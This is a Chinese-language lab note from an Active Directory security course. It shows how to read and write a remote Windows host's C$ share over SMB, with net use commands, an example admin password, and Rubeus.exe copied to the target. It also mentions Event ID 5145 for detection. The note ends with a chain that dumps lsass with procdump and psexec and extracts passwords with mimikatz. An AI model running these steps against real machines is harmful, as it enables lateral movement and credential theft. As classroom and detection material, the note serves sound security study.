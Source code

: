 ```yaml
---
title: NTUSTISC - AD Note - Lab(SMB遠端讀寫)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/4. 遠端執行-讀檔"
---
```


# NTUSTISC - AD Note - Lab(SMB遠端讀寫)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Lab
這個lab主要和之前不太一樣的地方在於都是利用SMB的功能達到遠端電腦讀寫的效果，雖然遠端執行也可以做到，但這樣會比較方便

### ==遠端讀寫(w/ GUI)==
1. Open File Explorer
2. Enter `\\<IP>\c$`
For example: `\\192.168.222.128\c$`
3. Login Local Admin
![](https://hackmd.io/_uploads/S1uCNUBlp.png)

* Result
    我在Win10中利用上述步驟，成功讀取到Win2016的資料
    ![](https://hackmd.io/_uploads/HJbEr8Bxa.png)

### ==遠端讀寫(w/o GUI)==
沒有GUI的情況就需要先掛載遠端的C槽在本地端，然後才可以進行後續的讀寫，有時候他會跳出錯誤
* Cheat Sheet
    ```bash
    $ net use \\<IP>\C$ "<password>" /user:<username>
    ```
    :::spoiler Result
    ```bash
    $ net use \\192.168.222.128\C$ "1qaz@WSX3edc" /user:administrator # 掛載遠端磁碟
    命令已經成功完成。
    $ net use # 查看已掛載的遠端磁碟
    會記錄新的網路連線。


    狀態       本機        遠端                    網路

    -------------------------------------------------------------------------------
    OK                     \\192.168.222.128\C$      Microsoft Windows Network
    命令已經成功完成。
    $ copy Rubeus.exe \\192.168.222.128\C$
    複製了         1 個檔案。
    ```
    ![](https://hackmd.io/_uploads/BykOL8rgT.png)
    可以看到Win2016的C槽中多了一個Rubeus.exe的檔案，代表成功
    :::

### ==How to Detect SMB Access==
Event ID: 5145
預設不開，因為會有大量的event湧入，除非設定有存取c$的filter，就會少非常多，因為遠端存取c槽本身就蠻可疑的，所以偵測到非法存取的機率就蠻高的

## ==組合技==
1. 利用SMB開進去遠端檔案總管，然後把procdump.exe送過去(忘記procdump.exe可以複習一下[NTUSTISC - AD Note - Lab(其他方法得到lsass.dmp)](https://hackmd.io/@SBK6401/S16T17NCn))
2. 使用psexec.exe遠端執行procdump.exe就可以取得lsass的memory dump
3. 再利用SMB把dump result取回本機
4. 在本地端使用mimikatz以便取得更多密碼